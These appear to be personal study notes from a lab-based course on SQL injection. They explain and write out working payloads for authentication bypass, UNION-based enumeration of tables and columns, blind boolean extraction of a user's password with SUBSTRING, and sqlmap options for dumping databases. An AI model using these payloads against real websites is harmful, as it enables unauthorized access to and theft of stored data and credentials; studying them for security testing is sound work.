 
SQL Injection takes advantage of weak input sanitization in order to run crafted SQL statements on a webpage and get back un-intended results that are supposed to be hidden.
	A good cheat sheet resource
	portswigger.net/web-security/sqlinjection/cheat-sheet

Entry in a Search Field: `jeremy' or 1=1#` might return more than expected.
	The ' at the end of jeremy  
	The `or 1=1` will always return true or equal everything in an SQL perspective
	The # is a terminator which will end the sequel query.  There are some others depending on the version of SQL running.

SQL Injection UNION - This allows us to grab information from other tables that we should not have access to.  We have to select the same number of columns as the original query.  
	In order to find out how many columns are needed you try this:
	`jeremy' union select null#`
	`jeremy' union select null,null#`
	`jeremy' union select null,null,null#`
		Do this until you get a return with information and that null is your entry point
	From here, once you know where you're going you can do something like the following:
	`jeremy' union select null,null,version()#`
		This should spit out the version of the database
	`jeremy' union select null,null,table_name from information_schema.tables#`
		This spits out the names of all the tables in the database.  You can also switch table for columns:
	`jeremy' union select null,null,column_name from information_schema.columns#`
Another constraint is the data type must match so you may have to try some different things to get integers to integers and strings to strings
	`null(int)` or putting a number in a column, `1`


Blind SQL Injection - it's called "blind" because you don't see the output returned like you would with a union statement.  You have to rely on different feedback in order to pull the information you want.

If you can find an entry point you can extract information by using a series of Boolean questions in order to enumerate the information desired.

Search w3schools.com for SUBSTRING() Function within SQL to help craft your query to enumerate the information you want.

`SELECT SUBSTRING(string, start, length) AS ExtractString;`
	`<injectable entry point>' and substring('a', 1, 1) = 'a'#`
	This will check to see if the first character is an `a` or not.  You'll get a happy return if it is, and a log in error page if not because of the `AND` SQL statement.

We want to change the first part in the substring argument to whatever it is we are wanting to try and enumerate
	`<injectable entry point' and substring((select version()), 1, 1) = 'a'#`
		This will actually check if the first character of the version matches the end number.
			Make sure you put the `select version()` in their own brackets to have it resolve first.  So this will grab the version number of the database and then run the check on it.

From here, you can use Burp's Repeater in order to speed this up.  You'll just use the last part of the check (the `'a'`) and have burp run through the iterations of things that may take a longer time.
	`<injectable entry point' and substring((select password from injection0x02 where username = 'colindy'), 1, 1) = 'a'#`
		This will `select` the `password` `from` the `injection0x02` table `where` the `username` is `'colindy'` and check to see if the first character is `a`.



SQLmap   - read more on this, this is a very useful tool.
`sqlmap -r rep.txt`
	This will start a simple sqlmap scan on a packet grabbed from Burp Suite and sent to repeater.  Copy the whole packet and past it into a text file
		`--level=2`  This is needed for cookies
		`--dump`  This dumps the database
		`-T <tablename>`  This will run the command just on the table listed